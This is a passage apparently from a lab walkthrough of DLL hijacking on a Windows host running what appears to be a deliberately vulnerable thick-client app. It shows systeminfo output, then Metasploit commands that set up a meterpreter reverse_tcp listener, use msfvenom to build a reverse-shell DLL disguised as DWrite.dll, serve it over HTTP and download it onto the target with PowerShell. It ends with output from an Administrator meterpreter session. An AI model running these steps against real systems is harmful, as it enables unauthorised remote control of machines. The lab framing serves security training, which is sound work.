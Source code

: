 ```
                           [11]: KB4521862
                           [12]: KB4523204
                           [13]: KB4539571
                           [14]: KB4549947
                           [15]: KB4558997
                           [16]: KB4561600
                           [17]: KB4562562
                           [18]: KB4566424
                           [19]: KB4570332
                           [20]: KB4570333
Network Card(s):           1 NIC(s) Installed.
                           [01]: AWS PV Network Device
                                 Connection Name: Ethernet
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.4.16.1
                                 IP address(es)
                                 [01]: 10.4.29.250
                                 [02]: fe80::a55e:508a:f1e9:b9de
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

**Step 4**.

`ip addr | grep "inet"`.
`msfconsole -q`, `search multi handler`, `use exploit/multi/handler`, `set PAYLOAD windows/x64/meterpreter/reverse_tcp`, `show options`, `set LHOST 10.10.23.12`, `set LPORT 4444`, `exploit -j`.

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.23.12 LPORT=4444 -f dll -o /root/Desktop/reverse_tcp64.dll`.
`mv /root/Desktop/reverse_tcp64.dll /root/Desktop/DWrite.dll`.
`python -m SimpleHTTPServer 80`.

**Step 5**.

`iwr -UseBasicParsing -Uri http://10.10.23.12/DWrite.dll -OutFile C:\Users\Administrator\Desktop\dvta\bin\Release\DWrite.dll`.

**Step 6**.

`sysinfo`:
```
Computer        : PRIVILEGE-ESCAL
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```

`getuid`:
```
Server username: PRIVILEGE-ESCAL\Administrator
```

---